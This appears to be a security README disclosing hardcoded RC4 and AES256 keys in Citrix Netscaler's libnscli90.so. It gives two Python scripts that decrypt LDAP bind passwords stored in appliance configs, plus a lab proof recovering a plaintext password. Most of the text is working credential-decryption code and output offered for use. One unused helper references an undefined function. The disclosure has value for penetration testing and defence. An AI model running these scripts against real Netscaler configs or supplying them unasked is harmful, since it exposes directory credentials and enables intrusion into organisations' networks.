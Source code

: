 ## Netscaler

Netscaler has a hardcoded RC4 encryption key used to encrypt cleartext passwords stored in the config, such as for LDAP. The static encryption key exists in the libnscli90.so library, and as of 10.5 is `2286da6ca015bcd9b7259753c2a5fbc2`.

The below python script will decrypt LDAP and similar encrypted values obtained from the config.
````
#!/usr/bin/python
from Crypto.Cipher import ARC4
import sys, binascii

def decrypt(key, hex):
        out_cipher = ARC4.new(key)
        decoded = out_cipher.decrypt(hex)
        return decoded

def main():
        #Key hardcoded into netscaler libnscli90.so
        key = binascii.unhexlify("2286da6ca015bcd9b7259753c2a5fbc2")

        if len(sys.argv) == 2:
            raw_in = sys.argv[1]
            ciphertext = binascii.unhexlify(raw_in)
            print decrypt(key,ciphertext)

main()
````

## Update:

This seems to have changed at some point and now ldap bind passwords are encrypted by default with a new technique (in the running config looks like 
`add authentication ldapAction LDAP_mgmt -serverIP 192.168.200.130 -serverPort 636 -ldapBase "DC=citrix,DC=lab" -ldapBindDn readonly@citrix.lab -ldapBindDnPassword b65f2142d01fe706083173b064c04cfc6b81ab2417d39d63d2b3216176d0e638b89cbca0f1c4294db56b66668f94ff0f -encrypted -encryptmethod ENCMTHD_3 -ldapLoginName sAMAccountName -searchFilter "&(memberof=CN=NSG_Admin,OU=AdminGroups,DC=citrix,DC=lab)" -groupAttrName memberOf`)

*If the config line says -kek at the end you'll need to pull key encryption keys off the appliance as well, see [this blog post for a reference on the Netscaler KEK](https://www.ferroquesystems.com/resource/citrix-adc-security-kek-files/) :*


Note the `-encryptmethod ENCMTHD_3` in the config. 

After some quick RE i figured out this ENCMTHD_3 is just AES256-CBC with a different key ("351CBE38F041320F22D990AD8365889C7DE2FCCCAE5A1A8707E21E4ADCCD4AD9"). Heres the way to decrypt ENCMTHD_3 values (the default).



```
import base64
from Crypto.Cipher import AES
from Crypto import Random
import binascii,sys  


BS = 16
unpad = lambda s : s[:-ord(s[len(s)-1:])]

#thanks  https://stackoverflow.com/a/12525165 for aes snippet
class AESCipher:
    def __init__( self, key ):
        self.key = key

    def encrypt( self, raw ):
        raw = pad(raw)
        iv = Random.new().read( AES.block_size )
        cipher = AES.new( self.key, AES.MODE_CBC, iv )
        return base64.b64encode( iv + cipher.encrypt( raw ) ) 

    def decrypt( self, enc ):
        iv = "\x00" * 16
        cipher = AES.new(self.key, AES.MODE_CBC, iv )
        return unpad(cipher.decrypt( enc ))



def main():
        #New Key hardcoded into netscaler libnscli90.so
        key = binascii.unhexlify("351CBE38F041320F22D990AD8365889C7DE2FCCCAE5A1A8707E21E4ADCCD4AD9")

        if len(sys.argv) == 2:  
            raw_in = sys.argv[1]
            ciphertext = binascii.unhexlify(raw_in)
            f = AESCipher(key)
            decoded= f.decrypt(ciphertext)
            print decoded[16:]


main()

```


proof:

```
>add authentication ldapAction LDAP_mgmt -serverIP 192.168.200.130 -serverPort 636 -ldapBase "DC=citrix,DC=lab" -ldapBindDn readonly@citrix.lab -ldapBindDnPassword test12345678secretldappassword -ldapLoginName sAMAccountName -searchFilter "&(memberof=CN=NSG_Admin,OU=AdminGroups,DC=citrix,DC=lab)" -groupAttrName memberOf
Done
>show running
..snip..
add authentication ldapAction LDAP_mgmt -serverIP 192.168.200.130 -serverPort 636 -ldapBase "DC=citrix,DC=lab" -ldapBindDn readonly@citrix.lab -ldapBindDnPassword b65f2142d01fe706083173b064c04cfc6b81ab2417d39d63d2b3216176d0e638b89cbca0f1c4294db56b66668f94ff0f -encrypted -encryptmethod ENCMTHD_3 -ldapLoginName sAMAccountName -searchFilter "&(memberof=CN=NSG_Admin,OU=AdminGroups,DC=citrix,DC=lab)" -groupAttrName memberOf
..snip..

#python decrypt-new.py b65f2142d01fe706083173b064c04cfc6b81ab2417d39d63d2b3216176d0e638b89cbca0f1c4294db56b66668f94ff0f

test12345678secretldappassword
```


